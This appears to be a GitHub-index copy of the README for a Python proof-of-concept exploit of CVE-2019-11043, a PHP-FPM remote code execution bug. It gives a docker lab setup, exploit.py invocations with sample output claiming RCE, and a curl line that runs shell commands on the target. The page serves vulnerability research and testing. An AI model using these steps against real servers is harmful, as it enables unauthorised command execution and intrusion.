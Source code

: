 # CVE-2019-11043

(PoC) Python version of CVE-2019-11043 exploit by neex

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/theMiddleBlue](https://github.com/theMiddleBlue) |
| Url      | [https://github.com/theMiddleBlue/CVE-2019-11043](https://github.com/theMiddleBlue/CVE-2019-11043)                                               |
| Stars    | 145                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# PoC CVE-2019-11043
A Python version of the CVE-2019-11043 exploit https://github.com/neex/phuip-fpizdam<br>
This PoC is still a draft, please use the exploit written by [@neex](https://github.com/neex/)<br>
Vulnerability Analysis: https://paper.seebug.org/1064/

## PoC Setup
Just run docker compose to bring up nginx and php-fpm:

```bash
# docker-compose up -d
Creating network "cve-2019-11043-git_app_net" with driver "bridge"
Creating php   ... done
Creating nginx ... done
```

if you wish to read php-fpm logs, you could run:
```bash
docker logs --tail 10 --follow php
```

## Exploit

```bash
# python3 exploit.py --url http://localhost/index.php
[*] QSL candidate: 1752, 1757, 1762
[*] Target seems vulnerable: PHPSESSID=05b156ea034b903de6624f09c513541c; path=/
[*] RCE successfully exploited!

    You should be able to run commands using:
    curl http://localhost/index.php?a=bin/ls+/
```

If you want to check the vulnerability only, skipping the exploit:
```bash
python3 exploit.py --url http://localhost/index.php --skip-rce
#...
python3 exploit.py --url http://localhost/index.php --reset
```

You can try to kill php-fpm process and reset all injected PHP settings with `--reset`:
```bash
python3 exploit.py --url http://localhost/index.php --reset
```

## Video PoC
https://twitter.com/Menin_TheMiddle/status/1188776386569355265



## Get the content

```
git clone https://github.com/theMiddleBlue/CVE-2019-11043
cd CVE-2019-11043
```

{% embed url="https://github.com/theMiddleBlue/CVE-2019-11043" %}

<figure><img src="https://avatars.githubusercontent.com/u/4454961?v=4" alt=""><figcaption><p>theMiddleBlue</p></figcaption></figure>

